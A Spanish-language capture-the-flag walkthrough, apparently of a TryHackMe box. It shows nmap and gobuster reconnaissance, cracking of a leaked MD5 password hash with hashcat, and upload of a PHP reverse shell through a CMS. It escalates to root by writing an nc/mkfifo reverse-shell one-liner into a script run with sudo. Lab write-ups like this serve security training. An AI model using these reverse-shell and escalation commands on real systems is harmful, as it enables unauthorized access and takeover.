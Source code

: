 Lo primero que haremos será lanzar un escaneo con nmap -sV -vv 10.10.18.129:

![img](img/img01.png)
 
Luego vemos con otro nmap: nmap -A -p- -T4  10.10.18.129
Que hay dos puertos abiertos: SSH and HTTP

![img](img/img02.png)
 
Luego haremos un fuzzing a la pagina con el comando: gobuster dir -u http://10.10.182.8 -w /usr/share/wordlists/dirb/common.txt

![img](img/img03.png)

Vemos que es interesante /content y nos vamos a la web y buscamos ip/content.

Hacemos otro fuzzing a /content : gobuster dir -u http://10.10.18.129/content -w /usr/share/wordlists/dirb/common.txt

![img](img/img04.png)
 
Vamos a ver ip/content/as si es interesante y vemos un login:

![img](img/img05.png)

Si vamos a http://10.10.18.129/content/inc/ veremos un index con contenido interesante:

![img](img/img06.png)
 
La parte más interesante en mysql_backup:

![img](img/img07.png)
 
Y si entramos dentro de la carpeta vemos que hay un backup: 

![img](img/img08.png)
 
Vemos que esta el usuario y la contraseña encriptada en MD5: (User: manager y contraseña: 42f749ade7f9e195bf475f37a44cafcb)

![img](img/img09.png)

Así que usamos este comando para poder romperla:
sudo hashcat -m 0 hash(nombre fichero donde esta el hash) /usr/share/wordlists/rockyou.txt                            

Y la rompemos:
Password123
Entramos al anterior login en el navegador: ip/content/as
Manager
Password123
Y entramos:

![img](img/img10.png)
 
Luego usamos esta reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
REVERSE SHELL: Cambiamos la ip ( DE NUESTRA MAQUINA KALI TUN0)  y el puerto y nos vamos al apartado ads de la página y pegamos la reverse Shell y le damos a done:

![img](img/img11.png)
 
Ahora nos vamos a la terminal y ponemos: 
rlwrap nc -lvnp 4444

Ahora nos iremos al navegador y pondremos ipmaquina/content/inc/ads:

![img](img/img12.png)
 
UPGRADEAR SHELL
Y le damos click a la Shell y ya tendremos la reverse Shell en nuestra consola, ahora la upgradeamos con el comando:
python3 -c 'import pty;pty.spawn("/bin/bash")'
o también con:
python -c 'import pty;pty.spawn("/bin/bash")';
export SHELL=bash
export TERM=xterm-256color

![img](img/img13.png)
 
Y ahí esta la flag del usuario: (/home/itguy/user.txt)

![img](img/img14.png)
 
Respuesta: THM{**************}

Ahora haremos sudo -l y nos saldrán varias cosas, tendremos que correr el script backup.pl

![img](img/img15.png)
 
Para ello nos vamos a esa ruta y leemos el fichero:

![img](img/img16.png)
 
Ahora haremos un nano !$ (del archivo /etc/copy.sh)
OTRA OPCIÓN HACER ESTO: 
www-data@THM: echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc miipkali 5554(puerto) >/tmp/f” > /etc/copy.sh

EL COMANDO
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our IP> 4444 >/tmp/f' > /etc/copy.sh
Y cambiamos la ip por la nuestra (Kali) y otro puerto (5554) por ejemplo
Y ahora estar escuchando con netcat:

![img](img/img17.png)
 
Ahora hacemos un sudo /usr/bin/perl /home/itguy/backup.pl :

![img](img/img18.png)
 
Y ya se nos abrirá la Shell como root:

![img](img/img19.png)
 
Y nos vamos a /root y cat root.txt
![img](img/img20.png)
 
